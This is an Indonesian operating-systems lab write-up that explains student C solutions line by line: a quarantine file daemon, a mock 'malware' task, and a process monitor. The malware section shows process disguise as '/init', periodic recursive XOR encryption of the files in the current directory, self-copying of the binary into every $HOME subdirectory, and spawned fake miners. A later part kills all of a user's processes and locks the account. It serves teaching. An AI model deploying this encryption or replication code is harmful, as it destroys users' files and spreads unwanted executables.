rename(src_path, dst_path);
```
Bentuk path tujuan dan pindahkan file.

```c
char logmsg[512];
snprintf(logmsg, sizeof(logmsg), "%s - Successfully %s %s directory.", entry->d_name, mode, strcmp(mode, "returned") == 0 ? "to starter kit" : "to quarantine");
write_log(logmsg);
```
Tulis aktivitas ke file `activity.log`.

```c
if (decoded) free(decoded);
```
Jika hasil decode dialokasikan, hapus alokasinya.

---

### Perintah: `--return`

Saat perintah `--return` dijalankan, program akan menjalankan fungsi berikut:
```c
move_file(QUARANTINE_FOLDER, STARTER_KIT_FOLDER, 0, "returned");
```

Perbedaannya:
- `decode_name`: bernilai 0 → artinya tidak dilakukan dekripsi pada nama file.
- File hanya dipindahkan dari `quarantine` ke `starter_kit` tanpa ubahan nama.

#### Penjelasan Proses Return
Semua penjelasan kode di atas juga berlaku, hanya saja bagian:
```c
if (decode_name)
```
Tidak akan dijalankan karena nilainya adalah 0.

Dengan begitu, seluruh file dipindahkan apa adanya dan langsung dicatat aktivitasnya di file `activity.log`.

---

### Kesimpulan

- Pada `--quarantine`, file dari `starter_kit` dipindahkan ke `quarantine`. Jika namanya terenkripsi Base64, nama akan didekripsi.
- Pada `--return`, semua file dari `quarantine` dipindahkan kembali ke `starter_kit` tanpa proses dekripsi.
- Semua aktivitas dicatat ke dalam log.


### Soal Tipe D
> Mafuyu ingin memiliki fitur untuk menghapus seluruh file yang berada di folder `quarantine`. Artinya, ketika dijalankan perintah:
>
> ```bash
> ./starterkit --eradicate
> ```
>
> Maka seluruh file di dalam folder `quarantine` harus dihapus. Aktivitas penghapusan file harus dicatat ke dalam `activity.log`.

### Penyelesaian Tipe D
Program akan mengeksekusi fungsi `delete_files()` yang akan membaca seluruh file dalam folder `quarantine`, lalu menghapusnya satu per satu. Setiap kali file berhasil dihapus, informasi penghapusan akan dicatat ke dalam file `activity.log`.

### Fungsi yang Digunakan
```c
void delete_files(const char *dir_path)
```

### Penjelasan Per Baris:
```c
DIR *dir = opendir(dir_path);
```
- Membuka direktori `quarantine` (atau folder mana pun yang diberikan di argumen `dir_path`).
- `DIR` adalah pointer ke direktori, digunakan untuk membaca isinya.

```c
if (!dir) return;
```
- Jika folder tidak bisa dibuka (misalnya tidak ada), maka fungsi langsung keluar tanpa melakukan apa-apa.

```c
struct dirent *entry;
```
- `entry` digunakan untuk menyimpan informasi setiap entri (file atau folder) yang ditemukan di dalam direktori.

```c
while ((entry = readdir(dir)) != NULL) {
```
- Melakukan loop untuk membaca semua isi direktori satu per satu.

```c
if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;
```
- Mengabaikan file spesial “.” dan “..” yang menunjukkan direktori saat ini dan induk direktori.

```c
char filepath[512];
snprintf(filepath, sizeof(filepath), "%s/%s", dir_path, entry->d_name);
```
- Menyusun path lengkap file (misalnya `quarantine/password.txt`).

```c
if (is_regular_file(filepath)) {
```
- Mengecek apakah `filepath` adalah file biasa, bukan direktori lain.

```c
remove(filepath);
```
- Menghapus file dari sistem menggunakan fungsi `remove()`.

```c
char logmsg[512];
snprintf(logmsg, sizeof(logmsg), "%s - Successfully deleted.", entry->d_name);
write_log(logmsg);
```
- Menuliskan log ke file `activity.log` bahwa file berhasil dihapus.
- Format log-nya sesuai waktu dan nama file yang dihapus.

```c
}
```
- Penutup dari `if (is_regular_file(filepath))`.

```c
}
```
- Penutup dari `while`.

```c
closedir(dir);
```
- Menutup direktori setelah seluruh file dibaca dan diproses.

### Kesimpulan
Saat dijalankan dengan `--eradicate`, program:
1. Membaca seluruh isi folder `quarantine`.
2. Menghapus file satu per satu.
3. Menuliskan setiap aktivitas penghapusan ke dalam `activity.log`.

---

### Soal Tipe E
Setelah proses dekripsi selesai dan file berhasil dipindahkan ke folder `quarantine`, Mafuyu ingin menghentikan proses daemon yang sebelumnya dijalankan menggunakan perintah `--decrypt`.

Program harus menyediakan perintah `--shutdown` untuk menghentikan proses daemon yang berjalan di background.

### Penyelesaian E

Ketika pengguna menjalankan perintah:
```bash
./starterkit --shutdown
```
Program akan mencari proses daemon `./starterkit --decrypt` yang sedang berjalan, lalu menghentikannya menggunakan sinyal `SIGTERM`. Proses penghentian ini juga akan dicatat di file `activity.log`.

Fungsi yang Digunakan: `shutdown_daemon()`

Berikut adalah kode dari fungsi:
```bash
void shutdown_daemon() {
    FILE *cmd = popen("ps -ef | grep './starterkit --decrypt' | grep -v grep", "r");
    if (!cmd) return;
    char buf[256];
    while (fgets(buf, sizeof(buf), cmd)) {
        char user[64], proc[16];
        sscanf(buf, "%s %s", user, proc);
        pid_t pid = atoi(proc);
        kill(pid, SIGTERM);
        char msg[128];
        snprintf(msg, sizeof(msg), "Successfully shut off decryption process with PID %d.", pid);
        write_log(msg);
    }
    pclose(cmd);
}
```
**Keterangan :**
```bash
FILE *cmd = popen("ps -ef | grep './starterkit --decrypt' | grep -v grep", "r");
```
- Menjalankan perintah shell untuk mencari proses `./starterkit --decrypt`.
- popen membuka proses dan membaca outputnya seperti file.

```bash
if (!cmd) return;
```
- Jika perintah gagal dijalankan, maka fungsi keluar tanpa melakukan apapun.
```bash
char buf[256];
while (fgets(buf, sizeof(buf), cmd)) {
```
- Membaca setiap baris hasil dari perintah ps yang berisi informasi proses.
```bash
char user[64], proc[16];
sscanf(buf, "%s %s", user, proc);
```
- Mengambil user dan PID dari baris proses (PID akan digunakan untuk dihentikan).
```bash
pid_t pid = atoi(proc);
```
- Mengubah string PID menjadi integer.
```bash
kill(pid, SIGTERM);
```
- Mengirim sinyal SIGTERM ke PID tersebut untuk menghentikan proses daemon.
```bash
char msg[128];
snprintf(msg, sizeof(msg), "Successfully shut off decryption process with PID %d.", pid);
write_log(msg);
```
- Membuat dan menuliskan log bahwa proses daemon telah dihentikan.
```bash
pclose(cmd);
```
- Menutup proses popen.

### Kesimpulan
Perintah `--shutdown` sangat berguna untuk menghentikan proses daemon --decrypt yang berjalan secara terus-menerus di background. Proses ini dilakukan dengan mencari PID dari daemon, mengirim sinyal `SIGTERM`, dan mencatat aksi tersebut ke file `activity.log`.

---


### Soal Tipe F
Jika pengguna salah mengetikkan perintah (misalnya `--wrongoption`), program harus memberikan pesan error yang sesuai dan menampilkan daftar perintah yang benar. Hal ini penting agar pengguna tidak bingung dan tahu bagaimana cara menggunakan program dengan benar.

Program dijalankan dengan cara:
```bash
./starterkit --perintah_tidak_valid
```

### Penyelesaian F

Untuk menangani error, program menggunakan fungsi:
```c
void print_usage(const char *invalid)
```
Fungsi ini akan:
- Menampilkan pesan error jika parameter tidak valid
- Menampilkan daftar perintah yang benar

Pemanggilan fungsi ini dilakukan di `main()` saat jumlah argumen salah (`argc != 2`) atau argumen tidak cocok dengan pilihan yang tersedia.

#### Contoh Implementasi:
```c
void print_usage(const char *invalid) {
    if (invalid) {
        fprintf(stderr, "Error: Perintah '%s' tidak dikenali.
", invalid);
    }
    fprintf(stderr, "Gunakan salah satu perintah berikut:
");
    fprintf(stderr, "  --decrypt     : Menyediakan 'quarantine' (daemon).
");
    fprintf(stderr, "  --quarantine  : Mendeskripsikan file terenkripsi.
");
    fprintf(stderr, "  --return      : Memindahkan file dari quarantine ke starter_kit.
");
    fprintf(stderr, "  --eradicate   : Menghapus semua file di folder quarantine.
");
    fprintf(stderr, "  --shutdown    : Mematikan proses dekripsi (daemon).
");
}
```

### Penjelasan Per Baris

```c
if (invalid) {
    fprintf(stderr, "Error: Perintah '%s' tidak dikenali.
", invalid);
}
```
- Jika `invalid` tidak NULL, maka tampilkan pesan error bahwa perintah tidak dikenal.
- Pesan dikirim ke **stderr** agar diperlakukan sebagai error oleh sistem atau shell.

```c
fprintf(stderr, "Gunakan salah satu perintah berikut:
");
```
- Menampilkan heading bahwa daftar perintah valid akan segera ditampilkan.

```c
fprintf(stderr, "  --decrypt     : Menyediakan 'quarantine' (daemon).
");
fprintf(stderr, "  --quarantine  : Mendeskripsikan file terenkripsi.
");
fprintf(stderr, "  --return      : Memindahkan file dari quarantine ke starter_kit.
");
fprintf(stderr, "  --eradicate   : Menghapus semua file di folder quarantine.
");
fprintf(stderr, "  --shutdown    : Mematikan proses dekripsi (daemon).
");
```
- Menampilkan lima opsi yang valid, agar pengguna tahu pilihan perintah apa saja yang tersedia.

#### Di Fungsi main():
```c
if (argc != 2) {
    print_usage(NULL);
    return 1;
}
```
- Jika jumlah argumen tidak tepat, tampilkan petunjuk tanpa menunjukkan nama perintah yang salah.

```c
} else {
    print_usage(argv[1]);
    return 1;
}
```
- Jika argumen ada tetapi tidak cocok dengan perintah yang dikenal, tampilkan peringatan dan nama perintah tersebut.

### Kesimpulan

Fitur ini memastikan bahwa program lebih ramah terhadap pengguna. Dengan memberikan informasi saat terjadi kesalahan, pengguna jadi tahu:
- Bahwa perintahnya salah
- Apa saja perintah yang benar

### Soal Tipe G
> Terakhir, untuk mencatat setiap penggunaan program ini, Kanade beserta Mafuyu ingin menambahkan log dari setiap penggunaan program ini dan menyimpannya ke dalam file bernama activity.log.

### Penyelesaian Tipe G
Setiap aktivitas dari program starterkit, baik saat mendekripsi, memindahkan file, menghapus file, hingga mematikan daemon, harus dicatat ke dalam file log bernama activity.log. Untuk melakukan ini, program menggunakan fungsi `write_log()` yang ditulis khusus untuk mencatat pesan tertentu ke file tersebut.

#### Fungsi `write_log()`
Berikut adalah implementasi dari fungsi `write_log`:
```bash
void write_log(const char *message) {
    FILE *log = fopen(LOG_FILE, "a");
    if (log == NULL) return;

    time_t now = time(NULL);
    struct tm *t = localtime(&now);

    fprintf(log, "[%02d-%02d-%04d][%02d:%02d:%02d] - %s\n",
            t->tm_mday, t->tm_mon + 1, t->tm_year + 1900,
            t->tm_hour, t->tm_min, t->tm_sec,
            message);
    fclose(log);
}
```

Penjelasan :
```bash
FILE *log = fopen(LOG_FILE, "a");
```
- Membuka file `activity.log` dalam mode append (a) agar pesan baru ditambahkan ke akhir file, bukan menimpa.
- `LOG_FILE` merupakan macro yang nilainya "activity.log".
```bash
if (log == NULL) return;
```
- Kalau file `activity.log` tidak bisa dibuka, program langsung keluar dari fungsi agar tidak menyebabkan error lebih lanjut.
```bash
time_t now = time(NULL);
struct tm *t = localtime(&now);
```
- Mengambil waktu saat ini dan mengubahnya menjadi format waktu lokal.
```bash
fprintf(log, "[%02d-%02d-%04d][%02d:%02d:%02d] - %s\n", ...)
```
- Mencetak pesan log ke dalam file dengan format: `[DD-MM-YYYY][HH:MM:SS] - Pesan Log`
```bash
fclose(log);
```
- Menutup file setelah menulis agar data benar-benar tersimpan ke disk dan tidak korup.

#### Contoh Pemakaian `write_log()` di Program
Pemanggilan fungsi ini terjadi di banyak tempat, misalnya:
```bash
snprintf(msg, sizeof(msg), "Successfully started decryption process with PID %d.", getpid());
write_log(msg);
```
### Kesimpulan
- Fitur logging ini sangat penting karena:
- Memberikan jejak aktivitas program.
- Memudahkan debugging jika ada kesalahan.
- Meningkatkan transparansi penggunaan program.

Dengan adanya activity.log, pengguna seperti Mafuyu dan Kanade bisa mengetahui dengan jelas aktivitas yang telah dilakukan oleh program.

## Dokumentasi
#### Soal A & B


Ketika menjalankan perintah di atas maka akan muncul file dan folder baru sebagai berikut


File zip dari link berhasil di unzip ke folder `starter_kit`, folder `quarantine` dibuat, dan muncul file `activity.log` untuk mencatat aktivitas. Dari perintah `./starterkit --decrypt` akan muncul pesan sebagai berikut



### Soal C (`--quarantine`)


Ketika menjalankan perintah di atas maka file di `starter_kit` akan di pindahkan ke `quarantine` sekaligus nama file yang terenkripsi akan di decrypt


Aktivitas tersebut juga di catat di `activity.log`


### Soal C (`--return`)


Ketika menjalankan perintah di atas maka file yang tadinya ada di folder `quarantine` akan dipindahkan ke `starter_kit` kembali.



Dan akan mencatat aktivitas di log file



### Soal D


Ketika menjalankan perintah di atas maka program akan menghapus seluruh file yang ada di folder `quarantine`

.PNG)

Dan akan mencatat di log file



### Soal E
Ketika menjalankan perintah **`./starterkit --shutdown`** maka proses daemon dari program ini akan di berhentikan, berikut merupakan pengecekannya menggunakan command `ps aux | starterkit`


Lalu aktivitas juga akan di catat di log file dengan pesan sebagai berikut




### Soal F
Di soal ini diminta untuk menambahkan error handling, misalnya ketika saya mengetikkan command berikut akan muncul pesan di terminal


### Soal G
Untuk soal ini sudah di dokumentasikan di atas


# Soal 3
_*Oleh : Muhammad Khairul Yahya*_

## Deskripsi Soal
Dok dok dorokdok dok rodok. Anomali malware yang dikembangkan oleh Andriana di PT Mafia Security Cabang Ngawi yang hanya keluar di malam pengerjaan soal shift modul 2. Konon katanya anomali ini akan mendatangi praktikan sisop yang tidak mengerjakan soal ini. Ihh takutnyeee. Share ke teman teman kalian yang tidak mengerjakan soal ini 

## Jawaban

### Soal 3-A

Malware ini bekerja secara daemon dan menginfeksi perangkat korban dan menyembunyikan diri dengan mengganti namanya menjadi /init. 

### Penyelesaian 3-A

**Daemonizing Malware `/init`**
```c
if (getppid() != 1) {
    daemonize();
}
rename_process("/init", argc, argv);
```
**Penjelasan:**
-`getppid() != 1` : Mengecek apakah parent process bukan init (`PID 1`). Jika ya, berarti proses belum daemon — maka dipanggil `daemonize()` untuk menjadikannya daemon. 

- `daemonize()`:
```c
pid_t pid = fork();
if (pid < 0) exit(EXIT_FAILURE);  // Gagal fork
if (pid > 0) exit(EXIT_SUCCESS);  // Parent keluar

umask(0);
if (setsid() < 0) exit(EXIT_FAILURE);  // Buat session baru
close(STDIN_FILENO);
close(STDOUT_FILENO);
close(STDERR_FILENO);
```

Proses menjadi daemon: membuat session baru, menutup stdin/out/err agar tidak tergantung terminal.

- `rename_process("/init", argc, argv);`: Mengganati nama proses menjadi `/init` menggunakan kombinasi:

`prctl(PR_SET_NAME, ...)` ini untuk kernel. lalu overwrite `argv[0]` agar terlihat di `ps`, `top`, dll.

Ini menjadikan proses sebagai **daemon** dan menyamarkan namanya menjadi `\init` agar tidak mudah dikenali.

### Soal 3-B
Anak fitur pertama adalah sebuah encryptor bernama wannacryptor yang akan memindai directory saat ini dan mengenkripsi file dan folder (serta seluruh isi folder) di dalam directory tersebut menggunakan xor dengan timestamp saat program dijalankan. Encryptor pada folder dapat bekerja dengan dua cara, mengenkripsi seluruh isi folder secara rekursif, atau mengubah folder dan isinya ke dalam zip lalu mengenkripsi zip tersebut. Jika menggunakan metode rekursif, semua file di dalam folder harus terenkripsi , dari isi folder paling dalam sampai ke current directory, dan tidak mengubah struktur folder Jika menggunakan metode zip, folder yang dienkripsi harus dihapus oleh program. Pembagian metode sebagai berikut: Untuk kelompok ganjil menggunakan metode rekursif, dan kelompok genap menggunakan metode zip.

**Catatan:** karena kita kelompok ganjil sehingga menggunakan metode **rekursif**.

### Penyelesaian 3-B

**Fitur 1: `wannacryptor` (Encryptor)**
```c
void start_wannacryptor(int argc, char *argv[]) {
    pid_t pid = fork();
    if (pid < 0) return;

    if (pid == 0) {
        rename_process("wannacryptor", argc, argv);
        while (1) {
            time_t key = time(NULL);
            recursive_encrypt(".", key);
            sleep(INTERVAL);
        }
        exit(0);
    } else {
        wannacryptor_pid = pid;
    }
}
```
**Penjelasan:**
- Proses `wannacryptor` dibuat dengan `fork().`
- Child akan rename diriniya menjadi `"wannacryptor"` agar terlihat di proses tree.
- Setiap 30 Detik:

`key = time(NULL);` -> ambil timestamp sekarang sebagai kunci XOR.
`recursive_encrypt(".", key);` -> enkripsi seluruh file dan folder mulai dari direktori saat ini (`.`).

-`sleep(INTERVAL);` -> tunggu 30 detik dan ulangi.


-fungsi `recursive_encrypt()`:
```c
void recursive_encrypt(const char *path, time_t key) {
    DIR *dir = opendir(path);
    if (!dir) {
        encrypt_file(path, key);
        return;
    }
    ...
}
```
- Jika path adalah file biasa, maka panggil `encrypt_file().`
- Jika folder maka buka semua entry, dan lakukan rekursi.

-fungsi `encrypt_file()`:
```c
void encrypt_file(const char *path, time_t key) {
    FILE *file = fopen(path, "rb+");
    ...
    xor_encrypt(buffer, size, key);
    ...
}
```
- Membuka File sebagai binary
- Membaca seluruh isi file ke dalam buffer
- Melakukan enkripsi dengan `xor_encrypt()` lalu menulis kembali ke file

-fungsi `xor_encrypt()`:
```c
void xor_encrypt(char *data, size_t len, time_t key) {
    for (size_t i = 0; i < len; i++) {
        data[i] ^= (char)(key >> (8 * (i % sizeof(time_t))));
    }
}
```
- Enkripsi XOR byte per byte berdasarkan bagian dari key `time_t` (timestamp).

### Soal 3-C
Anak fitur kedua yang bernama trojan.wrm berfungsi untuk menyebarkan malware ini kedalam mesin korban dengan cara membuat salinan binary malware di setiap directory yang ada di home user.

### Penyelesaian 3-C

```c
void start_trojan(int argc, char *argv[]) {
    pid_t pid = fork();
    if (pid < 0) return;

    if (pid == 0) {
        rename_process("trojan.wrm", argc, argv);
        while (1) {
            char *home = getenv("HOME");
            if (home) {
                replicate_binary(home);
            }
            sleep(INTERVAL);
        }
        exit(0);
    } else {
        trojan_pid = pid;
    }
}
```
**Penjelasan**:
- Proses `trojan.wrm` dijalankan sebagai child dengan `fork()`.
- Proses akan rename dirinya menjadi `"trojan.wrm"`.
- Setiap 30 detik (`INTERVAL`), ia akan:
 Mengambil path direktori `$HOME`
 Menyalin binary malware ke setiap subdirektori dalam $HOME dengan nama `runme`


**Fungsi `replicate_binary()`:**
```c
ssize_t len = readlink("/proc/self/exe", self_path, ...);
```
- Mengambil path executable dari program itu sendiri (lokasi binary).
```c
FILE *src = fopen(self_path, "rb");
FILE *dest = fopen(dest_path, "wb");
```
- Buka binary asli, lalu salin byte demi byte ke lokasi baru ``target_dir/.../runme`.
```c
chmod(dest_path, 0755);
```
- Beri hak eksekusi agar binary bisa dijalankan

### Soal 3-D
Anak fitur pertama dan kedua terus berjalan secara berulang ulang selama malware masih hidup dengan interval 30 detik

## Penyelesaian 3-D

Kalau diperhatikan dalam fungsi `start_wannacryptor()` dan `start_trojan()`:
```c
while (1) {
    ...
    sleep(INTERVAL);
}
```
ini artinya setiap fitur akan terus aktif dan mengulangi prosesnya **setiap 30 detik**, selama malware belum dihentikan.

### SOAL 3-E & 3-F
- 3-E: Anak fitur ketiga ini sangat unik. Dinamakan rodok.exe, proses ini akan membuat sebuah fork bomb di dalam perangkat korban.
- 3-F: Konon katanya malware ini dibuat oleh Andriana karena dia sedang memerlukan THR. Karenanya, Andriana menambahkan fitur pada fork bomb tadi dimana setiap fork dinamakan mine-crafter-XX (XX adalah nomor dari fork, misal fork pertama akan menjadi mine-crafter-0) dan tiap fork akan melakukan cryptomining. Cryptomining disini adalah membuat sebuah hash hexadecimal (base 16) random sepanjang 64 char. Masing masing hash dibuat secara random dalam rentang waktu 3 detik - 30 detik. Sesuaikan jumlah maksimal mine-crafter dengan spesifikasi perangkat, minimal 3 (Jangan dipaksakan sampai lag, secukupnya saja untuk demonstrasi)


### Penyelesaian 3-E & 3-F
Fitur ketiga yaitu `rodok.exe`, akan menjalankan proses `mine-crafter-XX` yang melakukan cryptomining palsu:
- setiap proses diberi nama `mine-crafter-0`, `mine-crafter-1`, dan seterusnya.
- masing-masing menghasilkan hash acak dan mencatatnya ke `/tmp/.miner.log`.

```c
void start_rodok(int argc, char *argv[]) {
    pid_t pid = fork();
    if (pid < 0) return;

    if (pid == 0) {
        rename_process("rodok.exe", argc, argv);

        for (int i = 0; i < MAX_MINERS; i++) {
            if (fork() == 0) {
                miner_process(i, argc, argv);
                exit(0);
            }
        }

        while (1) pause();
    } else {
        rodok_pid = pid;
    }
}
```
**Penjelasan:**
- Proses `rodok.exe`:
Menyamar dengan nama `rodok.exe`
Membuat child sebanyak `MAX_MINERS` (default: 3) yang masing-masing menjalankan `miner_process(i, ...)`
- `pause()` memastikan `rodok.exe` tetap hidup tapi tidak fork bomb.

**Fungsi `miner_process(i, argc, argv)`**
```c
rename_process("mine-crafter-X", ...);
```
- proses ditandai dengan nama `mine-crafter-X` (X adalah nomor proses)
```c
RAND_bytes(hash, sizeof(hash)); //32 b = 64 hex
```
- menghasilkan hash acak 256-bit (32 bytes -> 64 hex)
```c
sleep(3 + (rand() % 28));
```
- delay acak antar hash: 3-30 detik.

### Soal 3-G
Lalu mine-crafter-XX dan mengumpulkan hash yang sudah dibuat dan menyimpannya di dalam file **/tmp/.miner.log** dengan format: 
**[YYYY-MM-DD hh:mm:ss][Miner XX] hash**
Dimana XX adalah ID mine-crafter yang membuat hash tersebut. 

### Penyelesaian 3-G
hasil mining palsu dicatat ke file log `/tmp/.miner.log` dalam format.
`[YYYY-MM-DD HH:MM:SS][Miner XX] hash`

**Fungsi `log_miner()`:**
```c
FILE *log = fopen(MINER_LOG, "a");
fprintf(log, "[%04d-%02d-%02d %02d:%02d:%02d][Miner %02d] %s\n", ...);
```
contoh hasil log: 

`[2025-04-15 13:52:33][Miner 01] f67a4d88542c4cfb147a8c...`

### Soal 3-H
Karena mine-crafter-XX adalah **anak** dari rodok.exe, **saat rodok.exe dimatikan**, maka seluruh **mine-crafter-XX** juga akan **mati.**

## Penyelesaian 3-H
Jika proses `rodok.exe` dimatikan, maka seluruh proses `mine-crafter-XX` juga akan mati karena merupakan anak proses langsung.

**Implementasi**:
- Karena setiap `mine-crafter` adalah child dari `rodok.exe`, saat parent-nya mati (misal via `kill`), maka mereka akan:

Menjadi orphan dan otomatis di-terminate oleh sistem, atau
Ikut mati bila tidak dipindahkan ke parent baru (biasanya `init`)

**Fungsi cleanup()**:
```c
void cleanup() {
    if (wannacryptor_pid > 0) kill(wannacryptor_pid, SIGTERM);
    if (trojan_pid > 0) kill(trojan_pid, SIGTERM);
    if (rodok_pid > 0) kill(rodok_pid, SIGTERM);
    exit(0);
}
```


## Kendala

Untuk kendala sendiri itu ada yang minor sama ada yang gk bisa,

- Untuk kendala minor sendiri itu, nama proses nya keikut `SHELL=!/bin/bash` shell. 

- lalu ada juga kendala minor untuk terminate `rodok.exe`, prosess `mine-crafter-xx` tidak mati. **sub soal 3-H**.

- untuk kendala yang gk bisa itu, wannacryptor tidak mengekripsi file yang ada di seluruh directory serta seluruh isi foldernya. **sub soal 3-B**.


## Dokumentasi

- Untuk struktur proses di program `./runme`:


- Untuk persebaran binary dalam fungsi `trojan.exe`, menyebarkan exec `runme` di dalam seluruh directory home:


- Untuk proses `mine-crafter-xx` bernama `Miner-XX` lalu juga berisi keterangan tanggal dan jam yang berisi karakter hash acak dengan waktu interval 3-30 detik:


- Untuk kendala minor, proses `mine-crafter-xx` tidak mati saat `rodok.exe` dimatikan:


# Soal 4
_*Oleh : Muhammad Khairul Yahya *_

## Deskripsi Soal
Suatu hari, Nobita menemukan sebuah alat aneh di laci mejanya. Alat ini berbentuk robot kecil dengan mata besar yang selalu berkedip-kedip. Doraemon berkata, "Ini adalah Debugmon! Robot super kepo yang bisa memantau semua aktivitas di komputer!" Namun, alat ini harus digunakan dengan hati-hati. Jika dipakai sembarangan, bisa-bisa komputer Nobita malah error total! 


## Jawaban

### Soal 4-A

Mengetahui semua aktivitas user
Doraemon ingin melihat apa saja yang sedang dijalankan user di komputernya. Maka, dia mengetik:
**`./debugmon list <user>`**
Debugmon langsung menampilkan daftar semua proses yang sedang berjalan pada user tersebut beserta PID, command, CPU usage, dan memory usage.

### Penyelesaian 4-A

**Struktur Data `processinfo`**:
```c
typedef struct {
    pid_t pid;
    char command[MAX_LINE_LEN];
    float cpu_usage;
    float memory_usage;
} ProcessInfo;
```
**Penjelasan**:
- Struktur ini menyimpan informasi proses: PID, nama command, penggunaan CPU, dan penggunaan memory.


**Fungsi `list_processes()`**:
```c
void list_processes(const char *username) {
    ProcessInfo processes[MAX_PROCESSES];
    int count = 0;
    
    if (get_user_processes(username, processes, &count) == 0) {
        printf("%-10s %-30s %-10s %-10s\n", "PID", "COMMAND", "CPU %", "MEMORY (MB)");
        for (int i = 0; i < count; i++) {
            printf("%-10d %-30s %-10.2f %-10.2f\n", 
                   processes[i].pid, 
                   processes[i].command, 
                   processes[i].cpu_usage,
                   processes[i].memory_usage);
        }
    }
}
```
**Penjelasan**:
- Implementasi dari perintah `./debugmon list <user>`. Fungsi ini lah yang akan dipanggil ketika user memasukkan perintah tersebut.
- Menampilkan daftar proses user dalam format tabel yang menampilkan PID, command, penggunaan CPU, dan penggunaan memory. Sesuai dengan format 

### Soal 4-B

Memasang mata-mata dalam mode daemon
Doraemon ingin agar Debugmon terus memantau user secara otomatis. Doraemon pun menjalankan program ini secara daemon dan melakukan pencatatan ke dalam file log dengan menjalankan:
**`./debugmon daemon <user>`**

### Penyelesaian 4-B

**Fungsi `daemon_mode()`**:
```c
void daemon_mode(const char *username) {
    pid_t pid = fork();
    
    if (pid < 0) {
        perror("fork");
        exit(EXIT_FAILURE);
    }
    
    if (pid > 0) {
        // Parent exits
        write_log("debugmon", "RUNNING");
        exit(EXIT_SUCCESS);
    }
    
    // Child becomes daemon
    umask(0);
    setsid();
    
    // Change working directory
    if ((chdir("/")) < 0) {
        perror("chdir");
        exit(EXIT_FAILURE);
    }
    
    // Close standard file descriptors
    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);
    
    // Main daemon loop
    while (1) {
        ProcessInfo processes[MAX_PROCESSES];
        int count = 0;
        
        if (get_user_processes(username, processes, &count) == 0) {
            for (int i = 0; i < count; i++) {
                write_log(processes[i].command, "RUNNING");
            }
        }
        
        sleep(5); // Check every 5 seconds
    }
}
```
**Penjelasan**: 
- Implementasi dari perintah `./debugmon daemon <user>`
- Menjalankan program sebagai daemon yang terus memantau proses user.
- Mencatat status "RUNNING" ke log setiap 5 detik.
- Menggunakan fungsi `get_user_processes` untuk mendapatkan daftar proses user.
- Menggunakan fungsi `write_log` untuk menulis ke log.
- Menggunakan fungsi `fork` untuk membuat proses anak yang akan menjadi daemon.
- Menggunakan fungsi `setsid` untuk membuat proses anak menjadi daemon.

### Soal 4-C

Menghentikan pengawasan
User mulai panik karena setiap gerak-geriknya diawasi! Dia pun memohon pada Doraemon untuk menghentikannya dengan:
**`./debugmon stop <user>`**

### Penyelesaian 4-C

**fungsi `stop_monitoring()`**:
```c
void stop_monitoring(const char *username) {
    //find and kill the daemon process
    char *const args[] = {"pkill", "-f", "debugmon daemon", NULL};
    if (execute_command("pkill", args) == 0) {
        write_log("debugmon", "STOPPED");
        printf("Monitoring stopped for user %s\n", username);
    } else {
        fprintf(stderr, "Failed to stop monitoring for user %s\n", username);
    }
}
```
**Penjelasan**:
- Implementasi dari perintah `./debugmon stop <user>`
- Menghentikan daemon yang sedang berjalan (dari sub soal 3-B) dengan membunuh prosesnya.
- Mencatat status `"STOPPED"` ke log.
- Menampilkan pesan bahwa pengawasan telah dihentikan.
- Menggunakan fungsi `execute_command` untuk menjalankan perintah `pkill` untuk membunuh proses daemon.

### SOAL 4-D

Menggagalkan semua proses user yang sedang berjalan
Doraemon yang iseng ingin mengerjai user dengan mengetik:
**`./debugmon fail <user>`**
Debugmon langsung menggagalkan semua proses yang sedang berjalan dan menulis status proses ke dalam file log dengan status FAILED. Selain menggagalkan, user juga tidak bisa menjalankan proses lain dalam mode ini.

### Penyelesaian 4-D

**Fungsi `fail_processes()`**:
```c
void fail_processes(const char *username) {
    const char *kill_args[] = {"pkill", "-9", "-u", username, NULL};
    if (execute_command("pkill", kill_args) != 0) {
        fprintf(stderr, "Failed to kill processes for user %s\n", username);
    }

    char *block_args[] = {"usermod", "-L", username, NULL};
    if (execute_command("usermod", block_args) != 0) {
        fprintf(stderr, "Failed to lock account for user %s\n", username);
    }
    
    write_log("debugmon", "RUNNING");
}
```
**Penjelasan**:
- Implementasi dari perintah `./debugmon fail <user>`.
- Membunuh semua proses user dengan signal 9 `SIGKILL`.
- Mengunci akun user dengan `usermod -L` sehingga tidak bisa menjalankan proses baru.
- Mencatat status "RUNNING" ke log.

### Soal 4-E

Mengizinkan user untuk kembali menjalankan proses
Karena kasihan, Shizuka meminta Doraemon untuk memperbaiki semuanya. Doraemon pun menjalankan:
**`./debugmon revert <user>`**
Debugmon kembali ke mode normal dan bisa menjalankan proses lain seperti biasa.

### Penyelesaian 4-E

**Fungsi `revert_processes()`**:
```c
void revert_processes(const char *username) {
    // Unblock user account
    char *const unlock_args[] = {"usermod", "-U", username, NULL};
    if (execute_command("usermod", unlock_args) != 0) {
        fprintf(stderr, "Failed to unlock account for user %s\n", username);
        write_log("debugmon", "REVERT_FAILED");
        return;  // Early return on failure
    }

    write_log("debugmon", "RUNNING");
    printf("User %s has been unblocked\n", username);
    printf("New processes can now be started\n");
}
```
**Penjelasan:**
- Implementasi dari perintah `./debugmon revert irul`.
- Membuka kunci akun user dengan `usermod -U`.
- Mencatat status `"RUNNING"` ke log.
- Mencetak pesan bahwa user telah dibuka dan proses baru bisa dijalankan.

### Soal 4-F

Mencatat ke dalam file log
Sebagai dokumentasi untuk mengetahui apa saja yang debugmon lakukan di komputer user, debugmon melakukan pencatatan dan penyimpanan ke dalam file debugmon.log untuk semua proses yang dijalankan dengan format
**`[dd:mm:yyyy]-[hh:mm:ss]_nama-process_STATUS(RUNNING/FAILED)`**
Untuk poin b, c, dan e, status proses adalah **RUNNING**. Sedangkan untuk poin d, status proses adalah **FAILED**. 

### Penyelesaian 4-F

**Fungsi `write_log()`**:
```c
void write_log(const char *process_name, const char *status) {
    time_t now;
    time(&now);
    struct tm *tm_info = localtime(&now);
    
    char timestamp[20];
    strftime(timestamp, 20, "[%d:%m:%Y]-[%H:%M:%S]", tm_info);
    
    FILE *log = fopen(LOG_FILE, "a");
    if (log) {
        fprintf(log, "%s_%s_STATUS(%s)\n", timestamp, process_name, status);
        fclose(log);
    }
}
```
**Penjelasan:**
- Fungsi ini mencatat aktivitas ke file log dengan format : `[dd:mm:yyyy]-[hh:mm:ss]_nama-process_STATUS(RUNNING/FAILED)`

